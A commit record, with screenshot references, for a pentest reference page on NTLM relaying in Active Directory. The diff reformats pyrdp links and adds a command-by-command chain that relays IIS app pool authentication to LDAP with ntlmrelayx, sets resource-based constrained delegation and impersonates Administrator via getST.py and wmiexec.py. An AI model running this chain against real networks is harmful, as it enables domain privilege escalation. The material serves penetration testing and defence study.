

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/active-directory/internal-relay-ntlm.md, in a window 1280 px wide and 1400 px high, scrolled down 10314 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Relay IIS App Pool

````diff
--- a/docs/active-directory/internal-relay-ntlm.md
+++ b/docs/active-directory/internal-relay-ntlm.md
@@ -328,8 +328,8 @@
 
 ## Man-in-the-middle RDP connections with pyrdp-mitm
 
-* <https://github.com/GoSecure/pyrdp>
-* <https://www.gosecure.net/blog/2018/12/19/rdp-man-in-the-middle-smile-youre-on-camera/>
+* [GoSecure/pyrdp](https://github.com/GoSecure/pyrdp)
+* [RDP Man-in-the-Middle – Smile! You’re on Camera](https://www.gosecure.net/blog/2018/12/19/rdp-man-in-the-middle-smile-youre-on-camera)
 
 **Usage**
 
@@ -348,6 +348,42 @@
 **Alternatives**
 
 * [SySS-Research/Seth](https://github.com/SySS-Research/Seth), performs ARP spoofing prior to launching the RDP listener
+
+## Relay IIS AppPool to Local Administrator
+
+* HTTP coerce from the targeted machine
+
+    ```ps1
+    powershell iwr http://10.10.10.2 -UseDefaultCredentials
+    ```
+
+* Relay to LDAP
+
+    ```ps1
+    ntlmrelayx -t ldap://10.10.10.1 -smb2support --interactive
+    ```
+
+* Connect to the interactive LDAP shell via TCP
+
+    ```ps1
+    nc 127.0.0.1 <PORT>
+    ```
+
+* Enable TLS and setup RBCD
+
+    ```ps1
+    start_tls
+    add_computer fakePC P@ssword123
+    set_rbcd TARGET$ fakePC$
+    ```
+
+* Impersonate the administrator
+
+    ```ps1
+    getST.py -spn 'cifs/target.lab.local' -impersonate Administrator -dc-ip 'dc.lab.local' 'lab.local/fakePC$:P@ssword123'
+    export KRB5CCNAME=/tmp/Administrator@cifs_target.lab.local@LAB.LOCAL.ccache
+    wmiexec.py -k -no-pass @target.lab.local
+    ```
 
 ## Common Issues Forwarding Port 445
 
````
